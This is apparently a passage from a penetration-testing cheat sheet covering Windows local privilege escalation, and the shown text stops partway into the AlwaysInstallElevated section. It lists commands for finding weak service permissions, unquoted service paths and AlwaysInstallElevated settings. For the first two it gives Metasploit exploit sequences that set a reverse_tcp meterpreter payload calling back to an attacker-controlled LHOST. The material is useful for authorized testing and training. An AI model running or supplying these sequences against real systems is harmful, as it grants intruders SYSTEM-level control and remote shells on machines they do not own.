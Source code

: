 ## B) Windows Local Privilege Escalation

> Run these **inside** the Windows target (cmd.exe/PowerShell or meterpreter `shell`). Each check maps to a Metasploit local exploit / technique.

### B.1 Service Permission Misconfig (Write/Change → SYSTEM)

**Detect**

```cmd
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
sc qc <service_name>
```

**Exploit**

```text
use exploit/windows/local/service_permissions
set SESSION <id>
set SERVICE <service_name>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

---

### B.2 Unquoted Service Path (Writable Dir in Path)

**Detect**

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\"
```

**Exploit**

```text
use exploit/windows/local/trusted_service_path
set SESSION <id>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

---

### B.3 AlwaysInstallElevated (MSI as SYSTEM)

**Detect**

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

